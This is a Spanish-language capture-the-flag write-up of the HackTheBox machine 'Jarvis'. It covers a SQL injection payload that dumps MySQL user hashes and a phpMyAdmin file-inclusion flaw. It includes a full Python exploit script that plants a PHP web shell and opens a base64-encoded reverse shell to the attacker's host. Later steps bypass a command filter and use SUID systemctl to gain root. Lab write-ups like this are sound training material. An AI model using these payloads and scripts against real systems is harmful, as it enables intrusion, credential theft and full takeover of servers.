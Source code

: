 ```yaml
---
title : Máquina|Jarvis|HTB|SQL|SUID
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Jarvis/Jarvis0.png" style="border-radius: 190px; width: 169px" alt="Jarvis">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Media </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/194" style="color: lightblue;">Jarvis</a></p>
    </div>
</div>

<h2><font color="white"><center># Jarvis</center></font></h2>
<br>


* <p>Vemos que es una maquina Linux a lo que nos enfrentamos por el TTL.</p>
>
<img src="imgs/Jarvis/Jarvis1.png">

* <p> Empezamos enumerando los puertos del servidor.</p>
>
<img src="imgs/Jarvis/Jarvis2.png">

* <p> Ahora procedemos a enumerar las tecnologías.</p>
>
<img src="imgs/Jarvis/Jarvis3.png">

* <p> Enumeramos directorios y archivos activos de la pagina web.</p>
>
<img src="imgs/Jarvis/Jarvis4.png">
>

* <p> Observamos el phpmyadmin y probamos credenciales por defecto.</p>
>
<img src="imgs/Jarvis/Jarvis5.png">

* <p> Al estar enumerando la pagina mire que era susceptible a un ataque de inyección sql.</p>
>
<img src="imgs/Jarvis/Jarvis6.png">
>
`union select 1,2,group_concat(User,0x3a,Password),4,5,6,7 from mysql.user-- -`

* <p> Procedemos a descifrar el hash que es MySQL 4.1, y sacamos como resultado la credencial: imissyou</p>
<img src="imgs/Jarvis/Jarvis7.png">


* <p> Procedemos a conectarnos en el panel previamente descubierto anteriormente.</p>
>
<img src="imgs/Jarvis/Jarvis8.png">

* <p> Procedemos a ver en searchsploit si hay exploits dedicados a esta version de phpmyadmin 4.8.0, vemos que puede ser susceptible a LFI.</p>
>
<img src="imgs/Jarvis/Jarvis9.png">
* <p> Vemos la posterior ruta en la que este exploit acude para poder tener un LFI y observamos la siguiente url</p>
>
<img src="imgs/Jarvis/Jarvis10.png">

* <p> Alistamos el /etc/passwd y vemos que si es vulnerable a un LFI</p>
>
<img src="imgs/Jarvis/Jarvis11.png">

* <p>No vemos nada relevante asi que procedemos a cargar un archivo por medio de la inyección SQL en la pagina web </p>
>
<img src="imgs/Jarvis/Jarvis12.png">

* <p>Vemos que nos interpreta el código.</p>
>
<img src="imgs/Jarvis/Jarvis13.png">

* <p>Posteriormente nos creamos un "exploit" para que nos automatice todo, lo que hace es codificar en base64 una reverse Shell, lanza la petición para que se aloje en el directorio 10.10.10.143/rem.php para posteriormente lanza otra petición a ese directorio del sistema mientras nos ponemos en escucha por el puerto 5550.</p>

```python
#!/usr/bin/python3
import requests
import sys
import signal
import time
import threading
from pwn import *

def salida(sig, frame):
	print("saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, salida)

#Cree su propia Shell base64 : echo "/bin/bash -i >& /dev/tcp/IP/5550 0>&1" | base64 
base64 = "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNTU1MCAwPiYxCg=="
port = 5550
url_ = "http://10.10.10.143"
file = "rem.php"

create_file = "http://10.10.10.143/room.php?cod=10%20union%20select%201,2,%22%3C?php%20system(%27echo%20{base64}%20|base64%20-d%20|bash%20%27);?%3E%22,4,5,6,7%20into%20outfile%20%22/var/www/html/{file}%22--%20-"
def pwned_shell():
    get_file = requests.get(create_file)
    get_shell = requests.get(f"{url_}/{file}")

try:
    threading.Thread(target=pwned_shell, args=()).start()
except Exception as e:
    log.error(str(e))

server = listen(port, timeout=20).wait_for_connection()
server.interactive()

```

* exploit.py
>
<img src="imgs/Jarvis/Jarvis15.png">

* <p> Procedemos a ejecutar el exploit. </p>
>

<video autoplay loop muted style="max-width: 700px; border-radius: 12px; margin: 0 auto; display: block;">
  <source src="imgs/Jarvis/video.gif" type="video/mp4">
  Tu navegador no soporta la reproducción de video.
</video>


* <p> Como quiero crearme una full tty no usare este exploit, sino que me pondré en escucha no netcat por el puerto 5550 y ejecuto el script.</p>
>
<img src="imgs/Jarvis/Jarvis16.png">

* <p> Procedemos cone el tratemiento de la Shell para tener una full tty.</p>
>
<img src="imgs/Jarvis/Jarvis18.png">
<img src="imgs/Jarvis/Jarvis19.png">
<img src="imgs/Jarvis/Jarvis21.png">

* <p>En este punto podríamos ver la flag de jarvis.</p>
>
<img src="imgs/Jarvis/Jarvis35.png">

* <p>Vemos que tenemos permiso para ejecutar un archivo en python siendo el usuario pepper.</p>
>
<img src="imgs/Jarvis/Jarvis36.png">

* <p>EL archivo python no esta del todo bien sanitizado. no me permite ejecutar ['&', ';', '-', '`', '||', '|'] pero no necesariamente tengo que usar estos caracteres para inyectar comandos y escalar privilegios, que paso si ahora ejecuto </p>
>
<img src="imgs/Jarvis/Jarvis22.png">

* <p>Vemos que al inyectar en el campo un $(echo "2"),recibimos la traza ICMP a mi interfaz 10.10.16.2 tun0.</p>
>
<img src="imgs/Jarvis/Jarvis23.png">

* <p>Si me hago una reverse Shell no podría ganar acceso al sistema por que no me permite el &, entonces para hacerle un Bypass a esta solicitud me creo un archivo temporal, en este almacenare la reverse Shell:</p>
>
<img src="imgs/Jarvis/Jarvis25.png">

* <p>Posterior mente me ejecuto el archivo. y ganamos acceso al sistema siendo pepper.</p>
>
<img src="imgs/Jarvis/Jarvis26.png">

* <p>Hacemos la Shell una full tty</p>
>
<img src="imgs/Jarvis/Jarvis27.png">

* <p>Ajustamos las filas y columnas.</p>
>
<img src="imgs/Jarvis/Jarvis30.png">

* <p>Vemos que tiene permisos SUID a systemctl lo que hace vulnerable, podemos crearnos una tarea siendo root.</p>
>
<img src="imgs/Jarvis/Jarvis31.png">

* <p>Estructura básica de una tarea systemctl</p>

```ruby
[Unit]
Description=Descripción del servicio
After=network.target

[Service]
Type=oneshot
ExecStart=/ruta/a/tu/programa

[Install]
WantedBy=multi-user.target
```

* <p>Configuramos los archivos y ganamos posteriormente acceso al sistema</p>
>
<img src="imgs/Jarvis/Jarvis33.png">

* <p>Posteriormente podemos ver la flag de root.</p>
>
<img src="imgs/Jarvis/Jarvis34.png">